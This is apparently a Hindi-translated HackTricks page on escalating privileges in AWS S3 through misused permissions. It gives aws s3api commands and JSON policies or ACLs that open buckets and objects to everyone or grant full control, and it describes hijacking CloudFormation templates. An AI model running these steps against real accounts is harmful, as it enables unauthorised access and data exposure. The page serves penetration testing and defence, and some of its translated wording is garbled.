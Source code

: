 # AWS - S3 विशेषाधिकार उन्नयन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

इन अनुमतियों के साथ एक हमलावर रुचिकर बाल्टियों पर उन्नयन कर सकता है और विशेषाधिकारों को बढ़ा सकता है।

उदाहरण के लिए, एक हमलावर जिसके पास "cf-templates-nohnwfax6a6i-us-east-1" नामक एक क्लाउडफ़ॉर्मेशन बाल्टी पर इन **अनुमतियों के साथ** होता है, वह डिप्लॉयमेंट को हथिया सकता है। इस पहुंच को निम्नलिखित नीति के साथ दी जा सकती है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
और हिजैक संभव है क्योंकि टेम्पलेट अपलोड होने के बाद से बकेट में टेम्पलेट डिप्लॉय होने तक का **छोटा समय विंडो** होता है। एक हमलावर अपने खाते में एक **लैम्बडा फंक्शन** बना सकता है जो जब बकेट अधिसूचना भेजी जाती है, तो उसकी **सामग्री** को **हिजैक** कर सकता है।

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

इस हमले को स्वचालित करने के लिए Pacu मॉड्यूल [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) का उपयोग किया जा सकता है।\
अधिक जानकारी के लिए मूल शोध की जांच करें: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

ये अनुमतियाँ हैं **S3 में ऑब्जेक्ट प्राप्त करने और अपलोड करने** के लिए। AWS के अंदर (और बाहर) कई सेवाएं S3 स्टोरेज का उपयोग करती हैं **कॉन्फ़िग फ़ाइलें** संग्रहित करने के लिए।\
इनमें से कुछ उदाहरण हैं:

* यदि एक EC2 इंस्टेंस S3 बकेट में **उपयोगकर्ता डेटा संग्रहित कर रही है**, तो एक हमलावर इसे संशोधित करके **EC2 इंस्टेंस के अंदर आवारिस्त कोड को निष्पादित** कर सकता है।

### `s3:PutBucketPolicy`

इस अनुमति के साथ एक हमलावर, जो **एक ही खाते से होना चाहिए**, अगर नहीं है तो त्रुटि `The specified method is not allowed will trigger` होगी, बकेट(बकेट्स) पर अधिक अनुमतियाँ खुद को प्रदान कर सकेगा, जिससे उसे बकेट पढ़ने, लिखने, संशोधित करने, हटाने और बकेट्स को उजागर करने की अनुमति मिलेगी।
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>
##JSON policy example
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके विशेष बकेट्स पर अधिक पहुंच प्राप्त कर सकता है।\
ध्यान दें कि हमलावर को समान खाते से होने की आवश्यकता नहीं होती है। इसके अलावा, लेखन पहुंच की आवश्यकता होती है।
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

एक हमलावर्ती इन अनुमतियों का दुरुपयोग करके बाल्टियों के अंदर विशेष वस्तुओं पर अधिक पहुंच प्राप्त कर सकता है।
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

इन अधिकारों के साथ एक हमलावर्ती को एक विशिष्ट ऑब्जेक्ट के संस्करण पर Acl डालने की संभावना होती है।
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>बढ़ावा दें HackTricks को और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **फॉलो** करें मुझे **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
